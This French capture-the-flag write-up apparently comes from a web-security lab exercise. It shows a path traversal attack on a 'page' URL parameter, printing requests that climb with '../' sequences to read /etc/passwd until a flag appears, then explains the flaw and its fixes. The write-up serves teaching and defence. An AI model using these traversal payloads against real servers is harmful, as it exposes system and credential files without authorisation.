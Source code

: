 ### Comment obtenir le flag
En allant sur n'importe quel page du site contenant une requête GET dans l'url (comme `http://[ip]/?page=survey`), on essaye de changer la valeur du paramètre `page`.  
On obtient alors un script alert. Cela nous donne l'idée d'utiliser une attaque de répertoires automatisés avec un script python ([inspect_recursion.py](inspect_recursion.py)).  
Ce script va simplement essayer d'accéder à l'URL du fichier `/etc/passwd` vu précédemment dans le dossier `whatever`, en rajoutant à chaque récursion un niveau de moins dans l'arborescence du serveur. Dans sa version finale, le script s'arrête quand l'alerte donne des indications sur le flag.  

```
$> python3 inspect_recursion.py [ip]

http://192.168.43.129/?page=etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../../etc/passwd
alert('Wrong..');

http://192.168.43.129/?page=../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../etc/passwd
alert('Almost.');

http://192.168.43.129/?page=../../../../../etc/passwd
alert('Still nope..');

http://192.168.43.129/?page=../../../../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```
Nous avons ainsi le flag.

### Expliquer la faille
La traversée de répertoire ou [*Path Traversal*](https://owasp.org/www-community/attacks/Path_Traversal) est une attaque HTTP qui permet aux attaquants d'accéder à des répertoires restreints et d'exécuter des commandes en dehors du répertoire racine du serveur web.  
Sur Linux, `/etc/passwd` est le fichier contenant la liste de tous les utilisateurs (et potentiellement leur mot de passe, même si ce dernier est généralement de nos jours dans `/etc/shadow`). Ici, l'utilisateur malveillant essaie d'utiliser `page` pour explorer le système de fichier et le contenu du serveur, et obtenir ainsi plus d'infomations sur sa configuration (et espérer trouver une faille exploitable).

### Comment la corriger
De façon assez basique, on pourrait simplement bloquer tout paramètre `page` commençant par un point. Il est préférable de vérifier les entrées utilisateur, idéalement de supprimer tout ce qui ne fait pas partie des données correctes pour naviguer sur le site.  
Il est de toute façon indispensable d'empêcher l'utilisateur exécutant le site Internet (en général `www-data`) d'avoir accès à `/etc/passwd` ou tout autre fichier sensible du système, en configurant correctement les droits et permissions sur le serveur.  
Enfin, vérifier si le serveur web et les logiciels sont à jour, et si les patches de sécurité ont bien été appliqués.
